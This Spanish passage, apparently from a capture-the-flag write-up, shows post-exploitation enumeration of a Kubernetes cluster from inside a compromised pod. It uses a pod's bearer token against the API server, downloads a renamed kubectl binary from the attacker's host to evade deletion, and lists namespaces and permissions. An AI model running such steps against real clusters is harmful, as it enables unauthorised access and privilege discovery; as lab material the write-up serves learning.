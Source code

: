 ```json
          "name": "kube-system",
...
```

¿Cuál? Pos si, `dev`:

```bash
<devnode>$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/dev
```

Pero no vemos nada relevante, simplemente que ese `namespace` me sonó extraño y podemos tenerlo en cuenta por si algo...

...

Jugando con [kubelet](https://kubernetes.io/es/docs/tasks/tools/install-kubectl/) nos es más sencillo movernos, así que siguiendo [esta guía](https://kubernetes.io/es/docs/tasks/tools/install-kubectl/) logramos descargarlo, lo subimos a la máquina (recuerden cambiarle el nombre, si no, el sistema lo borra) y empezamos a probar cositas:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl http://10.10.14.146:8000/kubectl -o kubito
```

> [Siguiendo este **Cheat Sheet**](https://kubernetes.io/docs/reference/kubectl/cheatsheet/) de **kubectl** encontramos el uso de varios comandos.

Vamos viendo de manera más sencilla lo que habíamos encontrado con `cURL`, por ejemplo para ver los "espacios de nombre" simplemente ejecutamos:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ ./kubito get namespaces
NAME              STATUS   AGE
default           Active   167d
dev               Active   167d
kube-node-lease   Active   167d
kube-public       Active   167d
kube-system       Active   167d
```

Vemos a `dev`, que (despues de algunas pruebas) es el unico en el que tenemos "permisos" para leer cositas distintas a los demás:

> Validamos lo que podemos hacer contra cada `namespace`...

(Cambiamos `-n` por cada uno: **default**, **kube-node-lease**, **kube-public** y **kube-system**):

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ ./kubito auth can-i --list -n default        
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
namespaces                                      []                                    []               [get list]
...
```
